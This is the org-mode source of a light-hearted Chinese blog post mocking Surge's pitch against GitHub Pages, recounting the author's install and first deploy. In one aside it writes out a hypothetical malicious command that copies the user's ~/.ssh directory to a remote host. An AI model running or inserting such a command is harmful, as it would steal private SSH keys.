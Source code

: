 #+TITLE: 吐槽Surge vs Github Pages
#+WIKI: blog,roast
#+STARTUP: inlineimages

*EDIT 2019-01-07*: 写的什么玩意！完全体现不出“Surge通过'向不会用git的用户表现
git有多难用'来推销自己，并且自身的步骤也没比github简单到哪去”的中心思想。另外我
现在也不会觉得这样的产品没有意义了（真香）。永久保留，引以为戒。

我本来是随手搜一下Github Pages对页面路由的友好程度（我估计肯定得用'#'分隔），然
后搜到[[https://github.com/kriasoft/react-static-boilerplate/issues/58#issuecomment-169252404][一个issue的回答]] 推荐Surge，其中一句There are [[http://gh-pages-vs.surge.sh/][articles dedicated]] to how
hard it is to deal with GHPages. （我甚至原样保留了链接）

请自行点进去看吧。它大意是说，为了用Github Pages，你需要点开github页面建帐号生成
密钥上传密钥确认密钥建项目推代码；而Surge只要装npm，然后装surge（
src_bash{npm install --global surge}，global重读），
然后运行一行简单的命令就可以了。还要什么自行车啊！

锤子啊！没感受到本质的区别，我期待的深度吐槽呢？

我自己装了一下，看看人家是怎么做到不要帐号不要密钥的呢？

[[file:surge.png]]

人家说得没错，只要运行一行简单的命令，然后按照提示 *创建* 帐号……所以它重点不在
要创建帐号而是要 *点开页面* 创建帐号。了解了。

虽然不懂它说的权限是什么意思，但是我决定换一个和邮箱一样的域名试试（我估计只要不
是它自家域名就行）。然后我十分配合地放了一个index.html来问好。

[[file:surge2.png]]

WTF！虽然我知道这不可能，但是还是赶紧去看了一下[[wtf.com]]，别人网站好好地在那。长
出一口气。

我好像没有用任何个人信息注册吧？万一弄脏了人家CDN应该也没事。不对，它那个命令做
了什么我完全不知道，万一它做了邪恶的事情（比如
src_bash{scp -r .ssh ooxx@surge.com:}），我就只能长跪不起了。
天知道它的代码有多少人看过。

然后我定睛一看，发现Surge单独搞了个子域名来放这个页面！
[[http://gh-pages-vs.surge.sh/]]！ 好拼啊！

我已经抓不住吐槽的重点了。想来虽然我尚未毕业，但是即将步入中年，思想陈腐，已经被
时代抛弃了。我会努力学习，做出这种简单粗暴，解决痛点的产品。
